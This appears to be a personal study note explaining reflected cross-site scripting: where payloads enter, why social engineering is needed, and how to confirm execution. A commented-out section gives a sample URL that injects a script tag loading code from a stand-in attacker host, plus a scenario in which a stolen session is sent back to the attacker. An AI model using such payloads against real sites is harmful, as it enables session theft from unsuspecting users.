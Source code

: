 ```yaml
---
title: Reflected XSS
---
```


**Reflected XSS** is the type of [[knowledge/off-sec/pentesting/xss|XSS]] attack where the **payload included in HTTP request** **is included in the webpage source without validation**.

Since it's a reflected XSS, the harmful code isn't saved in the remote web app. To execute the code on the target's host, some [[social engineering]] is needed (e.g. sending a faulty link via email).

## Possible points of entry

- URL Query Params
- URL file path
- HTTP headers (although unlikely exploitable in practice)

Once you find the entry point and the way to reflect data in the webpage source, you need to confirm that you can successfully run a JS/PHP code through the payload (code might or might not work depending on where the payload is reflected).

## My Write-ups

- [[knowledge/off-sec/write-ups/dvwa/dvwa-xss-reflected-low]]

<!--
## Example

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the `error` parameter in the query string.

```
https://website.thm/?error=Invalid input Detected
```

If the application doesn't check the contents of the error parameters, we could insert malicious code:

```
https://website.thm/?error=<script src="https://attacker.thm/evil.js'></script>
```

This would get rendered as

```html
<div class-"alert alert-danger">
	<p>
		<script src="https://attacker.thm/evil.js"></script>
	</p>
</div>
```

## Example scenario

1. Attacker sends a link with malicious [payload](knowledge/off-sec/glossary/payload.md) to a victim
2. Victim clicks the link and is taken to a vulnerable site
3. Link containing attacker's script is executed on website
4. The gathered data (e.g. stolen session) is sent back to the attacker

The attacker could send links or embed them into an `iframe` to execute code on the victim browser, potentially revealing sensitive information.


-->
